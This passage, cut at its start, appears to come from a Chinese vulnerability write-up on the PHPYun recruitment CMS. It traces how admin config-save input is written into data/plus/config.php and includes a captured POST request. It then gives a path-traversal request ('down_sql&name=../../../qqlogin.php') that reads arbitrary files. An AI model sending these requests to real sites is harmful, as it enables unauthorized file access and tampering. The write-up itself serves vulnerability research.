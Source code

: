 ```http
config=%E6%8F%90%E4%BA%A4&sy_webname=hr人才网&sy_weburl=.&sy_webkeyword=phpyun%E4%BA%BA%E6%89%8D%E7%BD%91%2Cphpyun%E6%8B%9B%E8%81%98%E7%BD%91%2Cphpyun%E6%B1%82%E8%81%8C%2Cphpyun%E6%8B%9B%E8%81%98%E4%BC%9A%2C&sy_webmeta=PHP%E4%BA%91%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F%EF%BC%8C%E6%98%AF%E4%B8%93%E4%B8%BA%E4%B8%AD%E6%96%87%E7%94%A8%E6%88%B7%E8%AE%BE%E8%AE%A1%E5%92%8C%E5%BC%80%E5%8F%91%EF%BC%8C%E7%A8%8B%E5%BA%8F%E6%BA%90%E4%BB%A3%E7%A0%81100%25%E5%AE%8C%E5%85%A8%E5%BC%80%E6%94%BE%E7%9A%84%E4%B8%80%E4%B8%AA%E9%87%87%E7%94%A8+PHP+%E5%92%8C+MySQL+%E6%95%B0%E6%8D%AE%E5%BA%93%E6%9E%84%E5%BB%BA%E7%9A%84%E9%AB%98%E6%95%88%E7%9A%84%E4%BA%BA%E6%89%8D%E4%B8%8E%E4%BC%81%E4%B8%9A%E6%B1%82%E8%81%8C%E6%8B%9B%E3%80%81%E8%81%98%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88%E3%80%82&sy_webcopyright=Copyright+C+20092014+All+Rights+Reserved+%E7%89%88%E6%9D%83%E6%89%80%E6%9C%89+%E9%91%AB%E6%BD%AE%E4%BA%BA%E5%8A%9B%E8%B5%84%E6%BA%90%E6%9C%8D%E5%8A%A1&sy_webtongji=&sy_webemail=admin%40admin.com&sy_webmoblie=1586XXXX875&sy_webrecord=%E8%8B%8FICP%E5%A4%8712049413%E5%8F%B7-3&sy_websecord=&sy_perfor=&sy_hrlicense=&sy_webtel=XXXX-836XXXXX&sy_qq=33673652&sy_freewebtel=400-880-XXXX&sy_worktime=&sy_listnum=10&sy_webadd=&sy_webclose=%E7%BD%91%E7%AB%99%E5%8D%87%E7%BA%A7%E4%B8%AD%E8%AF%B7%E8%81%94%E7%B3%BB%E7%AE%A1%E7%90%86%E5%91%98%EF%BC%81&sy_web_online=1&pytoken=de1c3e777158

```

这里可以知道，我们访问的是 `/admin/index.php?m=config&c=save`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a582fc87ec9bd5b05e42065105d5a64b7de78281.png)  
由 `m`以及 `c`控制使用的 `controller`与 `action`，在 `POC`中 `m=config&c=save`，因此我们访问的是 `admin`下的 `model/config.class.php`中的 `save_action` ，我们来看看处理  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6834eb9776c66fd153e6ceeb864b095d6d4ad01d.png)  
从上面的包来看，明显 `config`不为 `uploadconfig`，因此跳过这个 `if`语句，来到下面  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2b45a1498906a8532434abbd70c64b0891a02d91.png)  
首先 `unset`了 `config`与 `pytoken`的值，然后一些赋值，最后获取了 `config`的 `model`，然后将整个 `$_POST`放入 `setConfig`，我们跟进看看，位于 `app/model/config.model.php`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b4c151b4ed2201c13e324c897c64c200951ebd2c.png)  
首先使用 `select_all`查询 `admin_config`表中的值，这是数据库 `model`这个父类实现的方法  
然后遍历 `$config`获取所有的 `name`放入 `alllist` ，下面的就是遍历了 `$data`也就是上文的 `$_POST`，获取他的键，在 `alllist`中存在就更新，不存在就添加。  
返回上一步，`setconfig`后判断验证字符，正常情况下进入 `$this->web_config()`，跟进看看，来到 `app/public/common.php`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8cd496482c6dc29061b61c37a068005274f1fadb.png)  
在这里，会获取 `config`的数据库对象，然后获取其键值对，存入 `$configarr`，不为空就进入 `made_web`，跟进，位于 `app/include/public.function.php`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c1c7bb97ff80de79145983fcadd25e9aa1d71875.png)  
这里是将 `config`的键值对写入了 `data/plus/config.php`文件，我们看看内容  
![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bdfa83b9dda3c84872f4e9ca0698da2108dd645b.png)

#### 步骤二

读取文件步骤抓包可得

```http
GET /admin/index.php?m=database&c=down_sql&name=../../../qqlogin.php HTTP/1.1
Host: www.phpyun515.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://www.phpyun515.com/admin/index.php
Cookie: PHPSESSID=uje27rm43mjsqd2a8q5se7t5p3; XDEBUG_SESSION=PHPSTORM

```
